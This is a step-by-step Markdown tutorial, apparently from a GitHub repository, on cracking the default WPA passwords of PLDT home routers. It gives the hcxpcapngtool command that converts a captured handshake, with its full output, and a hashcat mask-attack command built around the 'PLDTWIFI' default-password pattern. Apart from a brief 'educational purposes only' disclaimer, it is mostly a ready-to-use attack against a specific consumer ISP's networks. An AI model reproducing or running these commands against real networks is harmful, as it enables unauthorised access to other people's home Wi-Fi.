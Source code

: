 ### How to Hack PLDTWIFI Default Credetials (PART2)

Author's Warning:
- This video is for EDUCATIONAL PURPOSES ONLY. I own all equipment used for this demonstration. Only use the tools demonstrated in this video against networks you have permission to attack.

Note:
- to disable monitor mode and bring the wifi adapter back to its normal operation, perform `sudo airmon-ng stop wlan0`, then use the syntax `systemctl start NetworkManager`
#### Steps

1. Check in your home directory of the file captured in the last tutorial. In our case: `test.pcapng`
   ![](../img/Pasted%20image%2020220823192703.png)
2. Before we can crack this password, we will convert this first to a file recognized by hashcat. To do this, we can use the syntax `hcxpcapngtool -E essidlist -I identitylist -U usernamelist -o /home/kali/test.22000 /home/kali/test.pcapng`, like so:

```
┌──(kali㉿kali)-[~]
└─$ hcxpcapngtool -E essidlist -I identitylist -U usernamelist -o /home/kali/test.22000 /home/kali/test.pcapng
hcxpcapngtool 6.2.7-36-g5dc85e2 reading from test.pcapng...

summary capture file
--------------------
file name................................: test.pcapng
version (pcapng).........................: 1.0
operating system.........................: Linux 5.18.0-kali5-amd64
application..............................: hcxdumptool 6.2.6
interface name...........................: wlan0
interface vendor.........................: 14ebb6
openSSL version..........................: 1.0
weak candidate...........................: 12345678
MAC ACCESS POINT.........................: 1011112cbeb6 (incremented on every new client)
MAC CLIENT...............................: b025aa87c352
REPLAYCOUNT..............................: 65134
ANONCE...................................: 51a04fa9485a0fc4bc9ef7a2cc7687146476cfe354e02b804015a0cc37c90f97
SNONCE...................................: 981d9b2fb4486c9c1b2d0215fe5c4c59b4b49f183ee225e71f3838ed433edd74
timestamp minimum (GMT)..................: 23.08.2022 07:05:53
timestamp maximum (GMT)..................: 23.08.2022 07:06:28
used capture interfaces..................: 1
link layer header type...................: DLT_IEEE802_11_RADIO (127)
endianess (capture system)...............: little endian
packets inside...........................: 464
frames with correct FCS..................: 462
packets received on 2.4 GHz..............: 2
packets received on 5 GHz................: 460
ESSID (total unique).....................: 2
BEACON (total)...........................: 3
BEACON on 2.4 GHz channel (from IE_TAG)..: 1 
BEACON on 5/6 GHz channel (from IE-TAG)..: 149 
BEACON (SSID wildcard/unset).............: 1
AUTHENTICATION (total)...................: 2
AUTHENTICATION (OPEN SYSTEM).............: 2
ASSOCIATIONREQUEST (total)...............: 1
ASSOCIATIONREQUEST (PSK).................: 1
EAPOL messages (total)...................: 456
EAPOL RSN messages.......................: 456
EAPOLTIME gap (measured maximum usec)....: 7498
EAPOL ANONCE error corrections (NC)......: not detected
REPLAYCOUNT gap (measured maximum).......: 2
EAPOL M1 messages (total)................: 450
EAPOL M2 messages (total)................: 3
EAPOL M3 messages (total)................: 1
EAPOL M4 messages (total)................: 2
EAPOL pairs (total)......................: 3
EAPOL pairs (best).......................: 1
EAPOL pairs written to 22000 hash file...: 1 (RC checked)
EAPOL M32E2 (authorized).................: 1

frequency statistics from radiotap header (frequency: received packets)
-----------------------------------------------------------------------
 2412: 2         5300: 114       5745: 244       5765: 95
 5785: 1         5805: 6

Information: missing frames!
This dump file does not contain undirected proberequest frames.
An undirected proberequest may contain information about the PSK.
It always happens if the capture file was cleaned or
it could happen if filter options are used during capturing.
That makes it hard to recover the PSK.


session summary
---------------
processed pcapng files................: 1

                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ 

```

Use `ls` command to check and verify if the new file is now available:

![](../img/Pasted%20image%2020220823192647.png)

3. Upload test.22000 in your drive (google drive, one drive, etc), or check if you can perform file sharing in your virtual machine going to your windows machine (haven't performed this yet).
4. Download the test.2200 in your windows machine (not kali), I will explain this later:
   ![](../img/Pasted%20image%2020220823192634.png)
5. Download Hashcat. Use the Part1 tutorial for reference. No need to install, just download and extract.
6. Move the downloaded file (test.2200) to the hashcat directories folder, like so:
   !![](../img/Pasted%20image%2020220823192608.png)
7. Open Windows Powershell, you can also use command prompt, but for me powershell gives more flexibility:
![](../img/Pasted%20image%2020220823192436.png)

Once done, use this syntax:

```
./hashcat.exe -m 22000 test.22000 -a 3 -w 4 -S --force --increment --increment-min 13 --increment-max 14 -1 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 PLDTWIFI?1?1?1?1?1
```

Make sure that the file test.22000 is in the hashcat directory:

![](../img/Pasted%20image%2020220823192416.png)

Once done, patiently wait for the password to crack and we can test it against the SSID:

END